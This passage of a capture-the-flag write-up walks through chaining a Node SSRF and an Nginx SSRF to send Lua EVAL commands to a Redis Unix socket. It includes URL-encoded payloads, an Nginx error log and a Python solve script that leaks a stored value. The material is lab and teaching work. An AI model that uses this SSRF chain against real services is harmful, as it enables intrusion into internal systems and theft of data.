 ```
EVAL redis.call('SET', 'img:<some_random_number>', redis.call('HGET', 'wbc', 'voted_for'))" 0
```

`redis.call` is pretty self-explanatory, where it would call a certain Redis command, in this case is `SET`. It will set the key of `img:<some_random_number>` with the data we get from `wbc` using `redis.call('HGET', 'wbc', 'voted_for')` . The `0` on the end of the command is just stating that we have zero arguments.

Then we can just get the encrypted data using the `/api/img/<some_random_number>` endpoint.

Great! We now know what to send to the Redis instance, but we still need to find out how to actually communicate to the Redis instance since we are using a different protocol from Redis.

#### Following the Redis protocol (omg title of the challenge :astonished:)

To achieve this, we can modify our HTTP request to change the verb to `EVAL` and then putting our payload on the URL itself to resemble a Redis command. The resulting HTTP request will look like this:

```
EVAL http://localhost/api/img/http://backend.wbc/unix:/redis/redis.sock:%22%20redis.call%28%27SET%27%2C%20%27img%3A162%27%2C%20redis.call%28%27HGET%27%2C%20%27wbc%27%2C%20%27voted_for%27%29%29%22%200
```

We are using the `/api/img` endpoint to use the Node SSRF that will go to `http://backend.wbc/` and then use the Nginx SSRF to connect to our Redis socket. Then the `EVAL` payload is URL encoded.

Cool! Should work right? Well... not yet.

```
[crit] 7#7: *165 connect() to unix:/redis.backend.wbc/redis.sock failed (2: No such file or directory) while connecting to upstream, client: 172.18.0.6, server: backend.wbc, request: "EVAL /unix:/redis/redis.sock:%22%20redis.call%28%27SET%27%2C%20%27img%3A456%27%2C%20redis.call%28%27HGET%27%2C%20%27wbc%27%2C%20%27voted_for%27%29%29%22%200 HTTP/1.1", upstream: "http://unix:/redis.backend.wbc/redis.sock:" redis.call('SET', 'img:456', redis.call('HGET', 'wbc', 'voted_for'))" 0", host: "backend.wbc"
```

Bad news is the Nginx recognized the Unix socket path of our payload as the subdomain, therefore appending the `.backend.wbc` to our path. Easy fix tho, we can just add another `/` to our payload. I added a Lua comment block containing the `/` so that it would not affect the Lua script.

Here is the Python code I used to craft and send the payload:

{% code title="solve.py" %}
```python
# Get voted_for
IMG_NUMBER = random.randint(100,500)
TEMPLATE = "/api/img/http://backend.wbc/unix:/redis/redis.sock:\"--[[/]] {}\" 0"

cmd = f"redis.call('SET', 'img:{IMG_NUMBER}', redis.call('HGET', 'wbc', 'voted_for'))"
payload = TEMPLATE.format(quote(cmd))

requests.request("EVAL", url=HOST+payload)
```
{% endcode %}
